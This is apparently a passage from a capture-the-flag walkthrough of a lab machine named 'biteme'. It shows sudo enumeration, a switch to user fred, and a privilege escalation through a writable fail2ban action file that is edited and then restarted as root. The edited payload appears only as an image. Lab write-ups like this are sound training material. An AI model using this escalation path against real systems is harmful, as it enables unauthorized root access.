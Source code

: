 Let's take a look at our sudo rights :  
```
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
```

Since we don't have the password for user `jason`, we can only use sudo as fred. Let's run `/bin/bash` as user `fred` :  
```
jason@biteme:~$ sudo -u fred /bin/bash
fred@biteme:~$ whoami
fred
```

Now, let's see if we have more privileges :  
```
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```

## Privilege escalation

If we have write privileges on configuration files of fail2ban, there is a way to escalate our privileges with it. Let's see if we have write permissions 
on fail2ban configuration files :  
```
fred@biteme:~$ find /etc -writable -ls 2>/dev/null
   156253      4 drwxrwxrwx   2 root     root         4096 Nov 13  2021 /etc/fail2ban/action.d
   142010      4 -rw-r--r--   1 fred     root         1420 Nov 13  2021 /etc/fail2ban/action.d/iptables-multiport.conf
```

We have write privileges on `/etc/fail2ban/action.d/iptables-multiport.conf`. Let's make a backup of this file first :  
```
fred@biteme:~$ cp /etc/fail2ban/action.d/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf.bak
```

Now, we can edit the file to change `actionban` value :  
![](https://i.imgur.com/j677AY7.jpg)  

Then, we have to restart fail2ban service :  
```
fred@biteme:~$ sudo systemctl restart fail2ban
```

